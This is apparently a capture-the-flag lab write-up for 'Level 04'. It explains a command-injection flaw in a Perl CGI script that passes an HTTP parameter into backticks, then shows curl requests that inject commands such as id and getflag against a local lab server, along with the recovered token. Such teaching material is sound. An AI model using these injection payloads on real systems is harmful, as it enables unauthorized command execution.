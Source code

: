 ## Level 04: Exploiting the Perl Script Vulnerability

### Goal
Identify and exploit a command injection vulnerability in a Perl CGI script (`level04.pl`) to retrieve the token.

### Understanding the Perl Script

1. **What is `level04.pl`?**  
- It is a Perl source file, commonly used for tasks like text manipulation, system automation, or web development.  
- This script functions as a `CGI` script, handling HTTP requests and dynamically generating web responses.

2. **How does the script work?**  
   Executing the file (`./level04.pl`) produces:
   ```html
   Content-type: text/html
   ```
   Inspecting the file (`cat level04.pl`) reveals:
   ```perl
   #!/usr/bin/perl
   # localhost:4747
   use CGI qw{param};
   print "Content-type: text/html\n\n";
   sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
   }
   x(param("x"));
   ```
   Key points:
   - `use CGI qw{param}`: Imports a `CGI` module and the `param` function from this module to handle HTTP parameters.
   - `$y = $_[0]`: assign the first argument passed to the subroutine to the variable `$y`
   - The `x` function print the result of executed command: `echo $y`.  
   Using backticks allows arbitrary command execution.
   - `x(param("x"))`: `param()` retrieves the parameter `x` from the HTTP request and passes its value to the `x` function.

3. **Vulnerability Analysis**  
   - The parameter `x` is passed directly to a shell command without validation.
   - This opens a command injection vulnerability, allowing arbitrary commands to be executed.

### Explanation of the Exploitation
1. **Command Injection via curl**  
   We can send HTTP requests to the script with malicious payloads to execute arbitrary commands:
   ```bash
   curl http://localhost:4747/level04.pl?x="\`/usr/bin/id\`"
   ```
   Output:
   ```scss
   uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
   ```
   Similarly, using the whoami command:
   ```bash
   curl http://localhost:4747/level04.pl?x="\`/usr/bin/whoami\`"
   ```
   Output:
   ```bash
   flag04
   ```
   **Why the commands are executed and not just `echo` in the Shell ?**  
   - Backticks (``) in `Perl` execute the command inside them in a subshell and return the output
   - The value of `$y` is interpolated into the `echo $y` command in the script.  

   For exemple, with this request:
   ```bash
   curl http://localhost:4747/level04.pl?x="\`/usr/bin/whoami\`"
   ```
   The executed Perl script becomes:
   ```perl
   #!/usr/bin/perl
   # localhost:4747
   use CGI qw{param};
   print "Content-type: text/html\n\n";
   sub x {
      $y = $_[0]; # $y becomes "`/usr/bin/whoami`"
      print `echo $y 2>&1`; # Executes: echo `/usr/bin/whoami` 2>&1 and print the result of the echo command
   }
   x(param("x")); #  param("x") returns "\`/usr/bin/whoami\`"
   ```

2. **Retrieve the Token**  
   Since the script runs as the `flag04` user, we can directly execute the `getflag` command:
   ```bash
   curl http://localhost:4747/level04.pl?x="\`/bin/getflag\`"
   ```
   Output:
   ```bash
   Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
   ```

